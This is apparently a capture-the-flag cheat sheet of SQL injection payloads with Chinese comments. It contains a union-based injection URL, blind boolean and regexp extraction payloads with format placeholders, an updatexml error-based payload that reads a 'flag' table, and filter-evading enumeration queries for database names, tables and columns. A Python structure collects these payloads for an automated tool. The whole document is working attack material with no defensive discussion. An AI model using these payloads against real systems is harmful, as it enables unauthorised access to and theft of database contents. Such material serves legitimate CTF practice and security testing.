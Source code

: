 - ```sql
  http://172.27.16.101:20123/sqlInject.php?id=2 union select (select group_concat(table_name) from information_schema.tables where table_schema=database())
  xxx'||(mid((select(group_concat(table_name))from(sys.schema_auto_increment_columns)where((table_schema)like(0x6d656469756d))),1,1)like('c'))||'
  xxx'||(mid((select(group_concat(table_name))from(sys.schema_auto_increment_columns)where((table_schema)like(0x6d656469756d))),%d,1)regexp'%s$')||'
  "||updatexml(1,concat(0x7e,(select(flag)from(flag)),0x7e),1)#
  ```
-
- ```sql
  # 数据库名
  select database()
  # 数据库版本名
  select version()
  # 表名
  select group_concat(table_name) from information_schema.tables where table_schema=database()
  select(group_concat(table_name)from(mysql.innodb_table_stats)where((database_name)regexp(database())
  select(group_concat(table_name))from(information_schema.tables)where(table_schema)regexp(database())
  (select(group_concat(table_name))from(sys.schema_table_statistics_with_buffer))
  # 列名
  select group_concat(column_name) from information_schema.columns where table_name="table_name2333"
  select(group_concat(column_name))from(information_schema.columns)where(table_name='table_name2333')
  # 从表中选择
  select * from flag
  select(group_concat(password))from(F1naI1y)
  ```
- ```python
  sql_targets = Targets(
      database=["database()"],
      all_databases=["(select group_concat(schema_name) from information_schema.schemata)"],
      version=["version()"],
      table_name=[
          "(select group_concat(table_name) from information_schema.tables where table_schema=database())",
          "(select(group_concat(table_name))from(information_schema.tables)where(table_schema)regexp(database()))",
          "(Select(Group_Concat(Table_name))From(InfOrmation_Schema.Tables)Where(Table_Schema)Regexp(Database()))",
          "(select(group_concat(table_name)from(mysql.innodb_table_stats)where((database_name)regexp(database())))",
          "(select(group_concat(table_name))from(sys.schema_table_statistics_with_buffer))"
      ],
      column_name=[
          "(select(group_concat(column_name))from(information_schema.columns)where(table_name='TABLE_NAME'))",
          "(Select(Group_Concat(Column_Name))From(InfOrmation_Schema.Columns)Where((Table_Name)regexp'TABLE_NAME'))",
          "(select group_concat(column_name) from information_schema.columns where table_name='TABLE_NAME')",
      ]
  )
  ```